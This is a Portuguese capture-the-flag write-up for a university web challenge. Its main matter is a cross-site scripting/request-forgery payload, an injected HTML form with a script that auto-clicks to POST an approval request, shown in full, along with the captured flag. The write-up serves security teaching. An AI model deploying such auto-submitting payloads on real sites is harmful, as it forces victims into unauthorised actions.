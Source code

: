 # CTF-Apply_for_FlagII.md
Abrimos o link no qual somos deparados com uma página a pedir para nós implorar-mos pela flag, como não somos simps escrevemos o seguinte:
|Site|
|:---:|
|![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/f161df37-08ef-4703-b2a0-151c982a9f7c)|
|Depois fomos direcionados para outra página:|
|![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/ebfa5209-2ab8-4608-9176-e6dd1e02cf10)|
|Clicamos em `page`, porque era o unico sitio que dava para clicar:|
|![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/76d62e94-3634-41bc-ba3f-c84cf47048ff)|
|Mais uma vez só dava para clicar em `here`, mas isto trolou-nos porque voltou para o mesmo sítio do ínicio|
|![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/9278f176-1ed7-43e2-a8d6-a66a50cf355d)|
|Tentamos encontrar outro sitio para clicar, e agora conseguimos reparar que no home tinha sido simpático e dava-nos o id próximo request|
|![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/137e8ef9-2800-4144-8208-5eaa446ca754)|

Agora visto que temos o id do próximo request, vamos tentar uma abordagem diferente, então para isto criamos um scrip para meter em input na caixinha de texto:
```javascript
<form method="POST" action="http://ctf-sp.dcc.fc.up.pt:5005/request/88345598596205a8156274d61d39dfa199ef384b/approve" role="form">          
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag">   
    </div>  
</form>    

<script type="text/javascript"> 
    document.querySelector('#giveflag').click();  
</script>
```
Nesta linha `<form method="POST" action="http://ctf-sp.dcc.fc.up.pt:5005/request/88345598596205a8156274d61d39dfa199ef384b/approve" role="form">` foi onde colocamos o id, mais um approve para ver se nos leva além do que já fomos.
|Novo input|
|:---:|
|![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/e4a68c3c-1d1f-42e6-a8c7-7bc58b22ca05)|
|O que não fomos bem recebidos|
|![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/6d00194b-bcae-4b14-9903-1c3397908af0)|
|Tentamos dar a volta a isto e reduzir no script ao meter só `<form method="POST" action="http://ctf-sp.dcc.fc.up.pt:5005/request/99b2c53267fc8d02252c62bc604ca0b76ac2112c/approve" role="form">`, clicamos no page/here|

Com isto foi nos dada a página com o flag:
```
flag{926f5532be02019b7fc7a4c78f120439}
```
